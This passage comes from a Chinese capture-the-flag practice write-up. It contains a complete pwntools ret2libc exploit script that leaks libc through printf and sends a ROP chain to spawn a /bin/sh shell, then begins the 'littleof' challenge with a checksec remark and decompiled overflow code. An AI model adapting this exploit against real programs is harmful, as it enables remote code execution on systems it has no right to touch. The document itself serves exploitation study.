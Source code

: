 #attack
payload=b'M'*(0x20+8) + p64(rdi_addr) + p64(format_str) + p64(rsi_r15_addr) + p64(read_got) + p64(0) + p64(printf_plt) + p64(main_addr)
r.recv()
r.sendline(payload)
read_addr = u64(r.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))
print("read_addr: " + hex(read_addr))

#libc
base_addr = read_addr - libc.symbols['read']
system_addr = base_addr + libc.symbols['system']
bin_sh_addr = base_addr + next(libc.search(b'/bin/sh'))
print("system_addr: " + (hex(system_addr)))
print("bin_sh_addr: " + (hex(bin_sh_addr)))

#attack2
payload=b'M'*(0x20+8) + p64(rdi_addr) + p64(bin_sh_addr) + p64(system_addr)
r.recv()
r.sendline(payload)

r.interactive()

## [2021 鹤城杯]littleof

**checksec一下**

![](buuctf%E5%88%B7%E9%A2%98%E8%AE%B0%E5%BD%95/%E5%B1%8F%E5%B9%95%E6%88%AA%E5%9B%BE%202023-03-14%20200914.png)

发现有canary保护

**ida查看**

```c
unsigned __int64 sub_4006E2()
{
  char buf[8]; // [rsp+10h] [rbp-50h] BYREF
  FILE *v2; // [rsp+18h] [rbp-48h]
  unsigned __int64 v3; // [rsp+58h] [rbp-8h]

  v3 = __readfsqword(0x28u);
  v2 = stdin;
  puts("Do you know how to do buffer overflow?");
  read(0, buf, 0x100uLL);
  printf("%s. Try harder!", buf);
  read(0, buf, 0x100uLL);
  puts("I hope you win");
  return __readfsqword(0x28u) ^ v3;
}
```
